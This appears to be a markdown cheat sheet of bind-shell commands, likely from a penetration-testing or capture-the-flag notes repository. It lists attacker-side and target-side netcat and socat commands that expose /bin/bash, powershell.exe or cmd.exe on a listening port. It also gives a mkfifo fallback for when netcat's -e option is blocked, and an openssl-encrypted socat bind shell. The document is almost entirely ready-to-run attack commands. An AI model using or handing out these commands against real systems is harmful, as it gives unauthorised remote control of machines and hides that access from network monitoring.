 ## NetCat

#### Attacker
```
nc <ip> <port> 
```
#### Target 
Linux
```
nc -lvnp <port> -e /bin/bash
```
Windows
```
nc -lvnp <port> -e powershell.exe
```
### If -e is blocked
#### Attacker
```
nc <ip><port>
```
#### Target
```
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
```

## Socat

#### Attacker
```
socat tcp:<ip>:<port> -
```
#### Target

Linux
```
socat tcp-l:<port> EXEC:"bash -li"
```
Windows
```
socat tcp-l:<port> EXEC:powershell.exe
```

### Encrypted Bind Shell

create certificate
```
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
```
```
cat shell.key shell.crt >shell.pem
```
#### Attacker
```
socat OPENSSL:<IP>:<PORT>,verify=0 -
```
#### Target
Linux
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:/bin/bash
```
Wndows
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
